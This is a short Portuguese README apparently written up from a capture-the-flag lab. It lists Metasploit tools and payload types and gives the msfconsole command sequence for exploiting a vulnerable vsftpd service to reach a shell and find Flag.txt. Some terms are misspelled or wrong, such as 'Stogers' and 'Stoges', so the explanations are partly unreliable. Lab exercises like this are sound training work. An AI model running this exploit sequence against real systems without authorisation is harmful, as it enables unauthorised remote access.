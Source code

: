 # Acesso_Remoto_A_Metasploit
Acessando remotamente uma máquina Metasploit (capture the flag)

## Ferramentas do Metasploit
`msfconsole`; Console de modo.
`msfweb`; Interface gráfica via navegador.
`msfpayload`; Gerar e personalizar cargas úteis.
`msfcli`; Interface de automatização de invasão.
`msflogdump`; Exibirá as sessões de arquivos abertos.

### Payloads
**Módulos para explorar, sendo de três tipos.**

`Single`: Apenas um pacote enviado sem conexão com o atacante.
`Stogers`: Forma uma conexão entre o atacante e o atacado.
`Stoges`: Insira o módulo de ação.

#### Meterpreter
Ou meta-interpreter, é um payload que funciona por injeção de dll.
O MeterPreter reside na memória do hospedeiro e não deixa vestígios no disco rígido.

##### Acessando a máquina MSF

> Desafio: Encontrar o arquivo Flag.txt apartir de outra máquina.

Na Máquina Kali acessamos o Metasplo.

`msfconsole`;

Procuraremos pelo Tpd de nossa máquinha alvo, uma versão antiga e vulnerável, porém ainda muito utilizada.

`search vsTpd`;

Configurando o IP de destino.

`show options`;
`set RHOST + IP da máquina alvo`;
Para verificar o endereço de IP
`ip addr`;

Configurando os Payloads.

`show payloads`;
`set payload payload/cmd/unix/interact`;

Iniciando a aplicação.

`exploit`;

![Metasploit](https://github.com/IsaelCampos/Acesso_Remoto_A_Metasploit/assets/149100120/097c2198-856b-4635-9d50-03debf9b0534)

